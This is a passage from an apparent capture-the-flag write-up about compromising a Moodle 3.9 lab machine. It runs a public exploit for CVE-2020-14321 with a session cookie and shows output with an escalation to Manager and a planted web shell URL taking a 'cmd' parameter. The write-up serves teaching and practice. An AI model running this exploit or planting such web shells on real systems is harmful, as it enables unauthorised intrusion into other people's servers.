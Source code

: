 ```bash
Getting moodle version...

Version found via /admin/tool/lp/tests/behat/course_competencies.feature : Moodle v3.9.0-beta

Searching vulnerabilities...


Vulnerabilities found: 0

Scan completed.
```

The scan didn't gave us anything, it was a normal `Moodle` platform, so we started the reconnaissance phase with a self-created account. And we found a course with the name "--Teachers Only--" and a Self enrolment with the Teacher role inside that course. It was strange, so a quick google search gave us the next step.

![teacher_role](teacher_role.png)

## Foothold - User

We found out that for `Moodle version 3.9` there's a RCE exploit if you have the Teacher role. (CVE-2020-14321).

And we did have that role!

So we downloaded the exploit from [here](https://github.com/HoangKien1020/CVE-2020-14321), and ran it against the machine

```bash
╰─ python3 exploit_mo.py -url http://10.10.93.142:9020/moodle/ -cookie=darsatmvtl2kanukccuur10den -cmd=ls                                                                                                ─╯
                           ***CVE 2020 14321***
    How to use this PoC script
    Case 1. If you have vaid credentials:
    python3 cve202014321.py -u http://test.local:8080 -u teacher -p 1234 -cmd=dir
    Case 2. If you have valid cookie:
    python3 cve202014321.py -u http://test.local:8080 -cookie=37ov37abn9kv22gj7enred9bl7 -cmd=dir

[+] Your target: http://10.10.93.142:9020/moodle/
[+] Logging in to teacher
[+] Teacher logins successfully!
[+] Privilege Escalation To Manager in the course Done!
[+] Maybe RCE via install plugins!
[+] Checking RCE ...
[+] RCE link in here:
http://10.10.93.142:9020/moodle//blocks/rce/lang/en/block_rce.php?cmd=ls
block_rce.php
```